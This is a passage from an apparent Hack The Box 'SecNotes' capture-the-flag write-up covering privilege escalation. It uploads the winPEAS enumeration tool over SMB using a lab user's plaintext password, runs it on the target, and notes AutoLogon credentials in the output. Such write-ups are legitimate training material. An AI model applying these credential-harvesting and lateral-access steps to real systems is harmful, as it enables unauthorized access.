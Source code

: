 ```
```

### Privilege Escalation

#### winpeas check

First we upload winpeas binary by smb:

```bash
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SecNotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put winPEASany.exe
putting file winPEASany.exe as \winPEASany.exe (33.4 kb/s) (average 33.4 kb/s)

```

```bash
put winPEASany.exe
```

Run winPEAS on the victim:

```cmd
cd C:\inetpub\new-site
winPEASany.exe
```

In the output of WinPEAS we will find:

```
  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  SECNOTES
    DefaultUserName               :  tyler

```

![[secnotes-19.png]]

We try check files on `C:\Users\tyler\Desktop` folder:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
10/23/2022  01:01 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,965 bytes
               2 Dir(s)  13,895,356,416 bytes free

C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
```